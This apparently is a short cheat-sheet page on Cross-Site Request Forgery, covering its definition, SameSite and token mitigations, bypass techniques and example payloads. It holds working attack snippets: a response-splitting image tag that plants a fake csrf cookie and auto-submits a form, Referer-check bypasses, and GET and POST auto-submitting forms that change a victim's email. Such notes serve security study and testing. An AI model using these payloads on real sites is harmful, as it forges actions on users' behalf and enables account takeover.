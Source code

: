 ```yaml
---
title: CSRF - Cross Site Request Forgery
description: Introduction Cross Site Request Forgery
---
```


# CSRF Attack

## Definition

Cross-Site Request Forgery (CSRF) is a type of web security vulnerability that allows an attacker to send malicious requests from a victim's browser to a target website. These attacks are designed to trick the victim's browser into believing that the request is legitimate, and to carry out an action on the target website on behalf of the victim.

## Mitigations

1. Use the `SameSite` cookie attribute to :
    - `Strict` : the browser will **not** include the cookie in any requests that originate from another site.
    - `Lax` :  the browser will include the cookie in requests that originate from another site but only if **two conditions** are met : GET method and the request resulted from a top-level navigation by the user, such as clicking a link (not requests by JS).
2. Use random CSRF Token.

## Attacks

Attacks are often based on two things :

1. Cookie-based session handling.
2. No unpredictable request parameters.

Examples :

- Change request method
- Remove CSRF attribute
- Cookie CSRF is the same as the CSRF param.
    - Use a HTTP response splitting to set the cookie of a specific value
    - Perform CSRF
    - `<img src="https://victim.com/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None" onerror="document.forms[0].submit();"/>`
- CSRF check based on Referer header
    - Bypass by disabling Referer header `<meta name="referrer" content="never">`
    - Bypass it by including the correct Referer `evil.com?good.com`
        - Use header [Referrer-Policy: unsafe-url](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Referrer-Policy#directives) and `history.pushState("", "", "/?evil.com")`

## Payloads

### GET

```html
<img src="https://example.com/logout">
```

### POST

```html
<form method="POST" action="https://example.com/email">
    <input type="hidden" name="email" value="hello@hello.com">
    <input type="hidden" name="csrf" value="0KL98nyeTFWocYvP8q9RHGrIt9IYn1Q7">
</form>
<script>
        document.forms[0].submit();
</script>
```

## References

- https://portswigger.net/web-security/csrf
- https://portswigger.net/web-security/csrf/samesite-cookies
